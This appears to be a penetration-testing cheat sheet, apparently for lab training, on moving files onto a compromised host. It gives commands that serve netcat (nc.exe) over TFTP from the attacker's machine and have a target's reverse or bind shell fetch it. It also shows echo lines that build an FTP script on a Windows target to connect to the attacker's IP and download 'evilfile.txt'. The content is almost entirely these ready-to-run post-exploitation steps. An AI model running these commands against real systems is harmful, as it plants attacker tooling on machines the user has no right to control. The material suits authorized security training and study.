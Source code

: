 ### File Transfers
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
#### FTP File Transfer
```
On attacking machine, setup an ftp server
`apt-get install pure-ftpd`

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
`chmod 755`
`./setup-ftp`

Copy and paste the following code into your Windows target bind/reverse shell
```echo open *ATTACKINGIP* 21> ftp.txt
echo user bedford>> ftp.txt
echo *PASSWORD*>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt```

Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`


